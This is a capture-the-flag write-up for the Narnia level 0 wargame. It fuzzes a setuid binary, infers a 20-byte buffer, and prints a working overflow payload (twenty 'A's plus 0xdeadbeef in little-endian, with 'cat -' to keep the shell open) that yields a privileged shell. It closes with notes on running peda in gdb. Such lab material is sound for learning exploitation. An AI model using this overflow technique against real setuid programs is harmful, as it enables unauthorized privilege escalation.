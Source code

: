 # narnia0
We tried not to read the code at first, like a regular CTF would normally be, although checking it out is expected. Lets begin by noticing what is it all about.

~~~~
narnia0@melinda:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: cats barking in a can
buf: cats
val: 0x41414141
WAY OFF!!!!
~~~~

Since this is the first chall, it is expected to be very simple. The basics then:

~~~~
narnia0@melinda:/narnia$ file ./narnia0
./narnia0: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=177ebbd012e00de35da6c62d828ef9ff2201555d, not stripped

strings narnia0
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
exit
__isoc99_scanf
puts
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.0
PTRh
D$,AAAA
[^_]
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 
%24s
buf: %s
val: 0x%08x
/bin/sh
WAY OFF!!!!
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
crtstuff.c
__JCR_LIST__
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
completed.6590
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
narnia0.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
data_start
printf@@GLIBC_2.0
_edata
_fini
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
exit@@GLIBC_2.0
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
__isoc99_scanf@@GLIBC_2.7
__TMC_END__
_ITM_registerTMCloneTable
_init
~~~~

It does not brings us a lot of information, except it is a very simple program. Also, we have a buffer, a hardcoded value and a highly suspected *scanf*. For all that matters, everything indicates a potential buffer overflow ccoming up. Even before disassembling the program, lets do a little more fuzzing:

~~~~
narnia0@melinda:/narnia$ echo AAAAAAAAAAAAAAAAAAAAAA |  ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAA
val: 0x41004141
WAY OFF!!!!
narnia0@melinda:/narnia$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAA |  ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
narnia0@melinda:/narnia$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA |  ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
~~~~

The buffer seems to have a fixed size o 20 bytes. Note that right after *Here is your chance:* in our strings result we see *24%s*. Maybe our scanf is reading 24 bytes? Then the other 4 bytes are overflowing o/
Now we can try to guess how this program works. There is a buffer array of 20 bytes which receives our input. The program reads 24 bytes from our input and copies it into the buffer. Finally, there must be a variable (*val*?) with initial value *0x41414141*. If right before the program ends this is equal to *0xdeadbeef*, shell for you. Otherwise, *WAY OFF!!!*.

Now lets try to prove ourselves right (or wrong). If our guess is right, we should be able to overwrite *val* by sending 20 bytes plus our desired new value.

~~~~
narnia0@melinda:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat -) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
~~~~

Bang! Note we had to use little endian notation (expect after our *file* command). Also, *cat -* is an old trick to keep the shell open and not immediately close.

# About peda
Ok a quick observation here about our tools. When we first sshed to the game we received a message telling us what are our weapons.

~~~~
--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools) in /usr/src/pwntools/
    * radare2 (http://www.radare.org/) should be in $PATH
~~~~

Now, I must confess it took me some time to figure out how to run peda. Since it is not in $PATH as radare2, we need to run it with its full path. Also, peda is not configured in gdbinit, so we must call it inside gdb with *source* command.

~~~~
narnia0@melinda:/narnia$ gdb /.narnia0
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
/.narnia0: No such file or directory.
(gdb) source /usr/local/peda/peda.py
gdb-peda$
~~~~









